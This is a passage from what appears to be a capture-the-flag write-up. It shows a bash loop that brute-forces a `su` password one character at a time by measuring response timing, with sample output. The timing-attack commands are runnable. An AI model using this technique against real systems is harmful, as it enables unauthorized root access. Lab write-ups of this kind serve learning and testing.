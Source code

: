     
    
    jack@toby:/etc$ echo "a---------" | time su 2>&1 | grep -Eo '.:..\...elapsed'
    0:01.01elapsed
    

I’ll use Python to get the printable characters and start building my loop. To
start, I’ll just look at the output of the first 10:

    
    
    python3 -c 'import string; print("\n".join(string.printable[:10]))' 
    | while read c; do 
        echo -en "$c "; 
        echo "${c}---------" 
        | time su 2>&1 
        | grep -Eo '.:..\...elapsed'; 
    done
    

Running this shows that the standard wrong character is around 1.01 or 1.02
seconds:

    
    
    jack@toby:/etc$ python3 -c 'import string; print("\n".join(string.printable[:10]))' | while read c; do echo -en "$c "; echo "${c}---------" | time su 2>&1 | grep -Eo '.:..\...elapsed'; done
    0 0:01.01elapsed
    1 0:01.02elapsed
    2 0:01.01elapsed
    3 0:01.01elapsed
    4 0:01.02elapsed
    5 0:01.01elapsed
    6 0:01.01elapsed
    7 0:01.01elapsed
    8 0:01.01elapsed
    9 0:01.01elapsed
    

I’ll use another `grep` to remove lines with “0:01.0” from the results. I’ll
also use a `\r` character on the first `echo` so that if nothing is found, it
prints over the previous character, which allows me to watch as the checks
progress without flooding the terminal. Finally, I’ll add a break if something
is printed:

    
    
    python3 -c 'import string; print("\n".join(string.printable[:-5]))' 
    | while read c; do 
        echo -en "\r$c "; 
        echo "${c}---------" 
        | time su 2>&1 
        | grep -Eo '.:..\...elapsed' 
        | grep -v "0:01.0" && break; 
    done
    